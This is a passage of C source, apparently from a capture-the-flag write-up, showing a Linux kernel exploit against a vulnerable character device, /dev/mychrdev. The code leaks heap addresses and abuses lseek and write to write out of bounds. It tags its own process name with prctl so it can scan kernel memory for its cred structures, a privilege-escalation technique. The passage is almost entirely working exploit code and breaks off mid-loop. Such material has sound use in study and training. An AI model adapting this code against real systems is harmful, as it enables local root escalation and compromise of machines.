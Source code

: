 ```
    printf("%d\n", *(int *)p);
    p += 4;
    printf("%s\n", p);
    p += 0x10;
    printf("0x%x\n", *(int *)p);
    p += 4;
    printf("0x%x\n", *(long *)p);
    p += 8;
    printf("%p\n", *(size_t *)p);
    heap = *(size_t *)p;
    close(fd);
`}`

void print_hex(char *buf, size_t len)
`{`
    int i;
    for (i = 0; i &lt; ((len / 8) * 8); i += 8)
    `{`
        printf("0x%lx", *(size_t *)(buf + i));
        if (i % 16)
            printf(" ");
        else
            printf("\n");
    `}`
    printf("\n");
`}`

int main()
`{`

    id();

    show();

    int fd = open("/dev/mychrdev", O_WRONLY);
    u_char buf[0x10010];
    memset(buf, 0, sizeof buf);
    for (int i = 0; i &lt; 2; i++)
    `{`
        long n = write(fd, buf, 0x10000);
        lseek(fd, 0, 0);
    `}`
    close(fd);


    size_t addr = 0x10000, pre_addr = 0;
    size_t cred, real_cred, target_addr;
    char target[16] = "try2findmep4nda";
    prctl(PR_SET_NAME, target);
    for (;; pre_addr = addr, addr += 0x10000)
    `{`
        // printf("pre_addr:0x%lX\n",heap-pre_addr);
        // printf("addr:0x%lX\n", heap-addr);
        size_t pos = pre_addr + 0x10001;
        // printf("pos:0x%lx\n", pos);

        fd = open("/dev/mychrdev", O_WRONLY);
        int n = lseek(fd, pos, 0);
        // printf("0x%x\n", n);
        // *(size_t *)buf = -0x10000LL;
        *(size_t *)buf = -(long long)(addr &gt;&gt; 8);
        *(size_t *)(buf + 8) = 0x100000000000LL;
        n = write(fd, buf, 0x1000);
```